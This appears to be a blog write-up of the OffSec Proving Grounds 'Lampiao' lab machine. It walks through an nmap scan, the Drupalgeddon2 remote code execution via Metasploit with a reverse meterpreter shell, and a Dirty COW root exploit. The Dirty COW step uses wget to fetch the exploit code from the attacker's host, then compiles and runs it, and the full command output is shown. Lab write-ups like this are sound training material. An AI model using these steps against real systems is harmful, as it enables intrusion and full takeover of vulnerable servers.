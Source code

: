 ```yaml
---
title: "Proving grounds Play: Lampiao"
layout: post
date: 2023-09-27 02:00
tag: 
- CTF
- Offsec labs
- OSCP
- Writeup
- Linux
- Pg-Play
- Drupalgeddon
- Dirtyc0w
writeups: true
hidden: true
author: Naveen
description: "Offsec proving grounds play linux machine writeup"
---
```


## Nmap

```sh
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 46b199607d81693cae1fc7ffc366e310 (DSA)
|   2048 f3e888f22dd0b2540b9cad6133595593 (RSA)
|   256 ce632af7536e46e2ae81e3ffb716f452 (ECDSA)
|_  256 c655ca073765e306c1d65b77dc23dfcc (ED25519)
80/tcp   open  http?
| fingerprint-strings: 
|   NULL: 
|     _____ _ _ 
|     |_|/ ___ ___ __ _ ___ _ _ 
|     \x20| __/ (_| __ \x20|_| |_ 
|     ___/ __| |___/ ___|__,_|___/__, ( ) 
|     |___/ 
|     ______ _ _ _ 
|     ___(_) | | | |
|     \x20/ _` | / _ / _` | | | |/ _` | |
|_    __,_|__,_|_| |_|
1898/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-title: Lampi\xC3\xA3o
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-favicon: Unknown favicon MD5: CF2445DCB53A031C02F9B57E2199BC03
| http-robots.txt: 36 disallowed entries (15 shown)
```

## Web PORT: 1898

![img](/assets/images/CTF/Proving_Grounds/Lampiao/web.png)

```html
<meta name="Generator" content="Drupal 7 (http://drupal.org)" />
```

http://192.168.172.48:1898/CHANGELOG.txt

The CMS version used in the web page is Drupal 7.54 which is vulnerable to [Drupal < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution](https://www.exploit-db.com/exploits/44449).

## Initial Foothold

```sh
msf6 exploit(multi/http/drupal_drupageddon) > use exploit/unix/webapp/drupal_drupalgeddon2
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > set rhosts 192.168.172.48
rhosts => 192.168.172.48
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > set rport 1898
rport => 1898
sf6 exploit(unix/webapp/drupal_drupalgeddon2) > set lhost 192.168.45.152
lhost => 192.168.45.152
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > set lport 4444
lport => 4444
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > run

[*] Started reverse TCP handler on 192.168.45.152:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Sending stage (39927 bytes) to 192.168.172.48
[*] Meterpreter session 1 opened (192.168.45.152:4444 -> 192.168.172.48:50570) at 2023-09-26 21:56:05 -0400
```

## Privilege Escalation

```sh
ww-data@lampiao:/tmp$ uname -a
uname -a
Linux lampiao 4.4.0-31-generic #50~14.04.1-Ubuntu SMP Wed Jul 13 01:06:37 UTC 2016 i686 athlon i686 GNU/Linux
www-data@lampiao:/tmp$ cat /etc/*release
cat /etc/*release
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=14.04
DISTRIB_CODENAME=trusty
DISTRIB_DESCRIPTION="Ubuntu 14.04.5 LTS"
NAME="Ubuntu"
VERSION="14.04.5 LTS, Trusty Tahr"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 14.04.5 LTS"
VERSION_ID="14.04"
HOME_URL="http://www.ubuntu.com/"
SUPPORT_URL="http://help.ubuntu.com/"
BUG_REPORT_URL="http://bugs.launchpad.net/ubuntu/"
```

The machine is vulnerable to [Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE_POKEDATA' Race Condition Privilege Escalation (/etc/passwd Method)](https://www.exploit-db.com/exploits/40839).

```sh
ww-data@lampiao:/tmp$ wget http://192.168.45.152:80/dirty.c -O dirty.c #download exploit to attacking machine
wget http://192.168.45.152:80/dirty.c -O dirty.c
--2023-09-26 23:07:15--  http://192.168.45.152/dirty.c
Connecting to 192.168.45.152:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5006 (4.9K) [text/x-csrc]
Saving to: 'dirty.c'

100%[======================================>] 5,006       --.-K/s   in 0.02s   

2023-09-26 23:07:15 (236 KB/s) - 'dirty.c' saved [5006/5006]

www-data@lampiao:/tmp$ ls
ls
dirty.c  suid3num.py  vmware-root
www-data@lampiao:/tmp$ gcc -pthread dirty.c -o dirty -lcrypt #compile the exploit
gcc -pthread dirty.c -o dirty -lcrypt
www-data@lampiao:/tmp$ ls
ls
dirty  dirty.c	suid3num.py  vmware-root
www-data@lampiao:/tmp$ ./dirty #run the exploit
./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: password #set new password

Complete line:
firefart:fi1IpG9ta02N.:0:0:pwned:/root:/bin/bash
```

Now use switch user or SSH to login to user `firefart:password` to obtain root.

```sh
naveenj@hackerspace:|22:15|~/pg-play/Lampiao/files$ ssh firefart@192.168.172.48
firefart@192.168.172.48's password: password

Last login: Wed Jul 22 14:23:39 2020
firefart@lampiao:~# id
uid=0(firefart) gid=0(root) groups=0(root)
firefart@lampiao:~# 
```

**Root Obtained**

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).